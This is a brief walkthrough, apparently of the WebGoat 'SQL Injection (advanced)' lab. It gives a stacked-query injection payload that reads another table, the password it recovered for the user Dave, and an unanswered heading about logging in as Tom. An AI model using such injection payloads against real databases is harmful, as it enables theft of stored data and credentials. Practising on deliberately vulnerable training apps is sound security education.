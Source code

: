 # SQL Injection (advanced)
## Try It! Pulling data from other tables

- Name:
```sh
Smith'; select * from user_system_data; --
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/wg%2010.JPG)

Password user Dave:
```sh
passW0rD
```

## Can you login as Tom?
